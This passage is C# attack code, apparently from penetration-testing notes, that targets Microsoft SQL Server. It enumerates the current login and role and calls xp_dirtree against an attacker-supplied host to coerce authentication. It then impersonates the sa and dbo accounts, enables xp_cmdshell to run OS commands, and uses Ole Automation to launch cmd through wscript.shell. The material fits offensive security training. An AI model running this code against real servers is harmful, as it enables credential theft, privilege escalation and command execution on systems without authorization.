 ```csharp
            }

            // Enumerate login name (SQL Server login or Domain/Windows username)
            string result = sqlQuery("SELECT SYSTEM_USER;", con);
            Console.WriteLine($"[*] Logged in as: {result}");

            // Enumerate database username
            result = sqlQuery("SELECT USER;", con);
            Console.WriteLine($"[*] Mapped to the user: {result}");

            // Check if we have public role assigned
            result = sqlQuery("SELECT IS_SRVROLEMEMBER('public');", con);
            Int32 val = Int32.Parse(result.ToString());
            if (val == 1)
            {
                Console.WriteLine("[*] User is a member of public role");
            }
            else
            {
                Console.WriteLine("[*] User is NOT a member of public role");
            }

            // Invoke xp_dirtree to coerce authentication on attacker's machine
            string lhost = args[0];
            result = sqlQuery($@"EXEC master..xp_dirtree '\\{lhost}\test';", con);
            Console.WriteLine($"[*] Invoked xp_dirtree against {lhost}");

            // Enumerate logins that we can impersonate
            result = sqlQuery("SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';", con);
            Console.WriteLine($"[*] Logins that can be impersonated:\n{result}");

            // Impersonate sa user
            result = sqlQuery("EXECUTE AS LOGIN = 'sa'; SELECT SYSTEM_USER;", con);
            Console.WriteLine($"[*] Executing in context of impersonated user: {result}");

            // Impersonate dbo database user
            result = sqlQuery("use msdb; EXECUTE AS USER = 'dbo'; SELECT USER;", con);
            Console.WriteLine($"[*] Executing in context of impersonated login: {result}");

            // Execute OS commands via xp_cmdshell
            sqlQuery("EXECUTE AS LOGIN = 'sa';", con);
            sqlQuery("EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;", con);
            Console.WriteLine("[+] Enabled xp_cmdshell");
            result = sqlQuery("EXEC xp_cmdshell whoami", con);
            Console.WriteLine($"[*] xp_cmdshell: {result}");

            // Execute OS commands via Ole Automation Procedures
            sqlQuery("EXECUTE AS LOGIN = 'sa';", con);
            sqlQuery("EXEC sp_configure 'Ole Automation Procedures',1; RECONFIGURE; ", con);
            sqlQuery(@"DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'cmd /c echo Test > C:\Windows\Tasks\out.txt';", con);

            con.Close();
        }
    }
}
```
{% endcode %}

